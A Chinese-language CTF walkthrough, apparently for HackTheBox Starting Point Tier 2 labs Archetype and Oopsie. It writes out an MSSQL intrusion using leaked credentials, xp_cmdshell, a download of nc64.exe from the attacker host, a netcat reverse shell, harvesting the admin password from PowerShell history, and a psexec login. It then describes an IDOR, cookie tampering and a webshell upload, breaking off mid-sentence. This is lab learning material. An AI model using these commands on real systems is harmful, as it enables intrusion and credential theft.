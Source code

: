 ## Tier 2

### Archetype

扫描发现 445 和 1433 端口开放，通过 `smbclient` 获取到 `prod.dtsConfig` 文件，其中包含了用户名 `sql_svc` 和 密码 `M3g4c0rp123`。随后利用 impacket 的 MSSQLClient 脚本（Kali 中可以使用 `impacket-mssqlclient`，其他脚本类似）连接 1433 端口的 SQLServer，注意使用 `-windows-auth` flag：

```bash
$ python3 mssqlclient.py sql_svc:M3g4c0rp123@<box_ip> -windows-auth
```

成功连接后，可以检查自身权限，发现属于 `sysadmin`：

```sql
> SELECT is_srvrolemember('sysadmin');
```

然后检查当前路径，发现位于 `C:\Windows\system32`：

```bash
> enable_xp_cmdshell
> xp_cmdshell "powershell -c pwd"
```

在本机上启动服务器用于给靶机下载 `nc64.exe`，注意切换靶机目录：

```bash
> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://<my_ip>:8000/nc64.exe -outfile nc64.exe"
```

随后实施反弹 shell，可以在 Desktop 目录下获得 user flag：

```bash
> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe <my_ip> 1337"
```

获取 shell 后故技重施，下载 winPEAS 并运行，发现存在命令行历史文件 `ConsoleHost_history.txt`，查看文件内容得到 Administrator 密码 `MEGACORP_4dm1n!!`：

```powershell
$ type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

最后通过 impacket 的 `psexec` 脚本获取 Administrator shell：

```bash
$ impacket-psexec Administrator:MEGACORP_4dm1n\!\!@<box_ip>
```

### Oopsie

Burpsuite 爬虫发现存在登录 URL `/cgi-bin/login`，首先以 guest 身份登录，在 Account 页面发现 URL 中含有参数 `id=2`，修改为 1 后可以获得 `admin` 用户的 Access ID 34322。在 Upload 页面发现访问页面需要 admin 权限，抓包可以看到 Cookie 中可以设置 `user` 和 `role` 两项，对应 Access ID 和用户名，填入 `admin` 的即可。

继续使用 `admin` 的 cookie 上传 webshell，随后爆破目录发现上传的文件位于 `/uploads` 即可访问 webshell。随后反弹 shell 并在 `/var/www/html/cdn-cgi/login` 下发现存有数据库密码的 `db.php`：
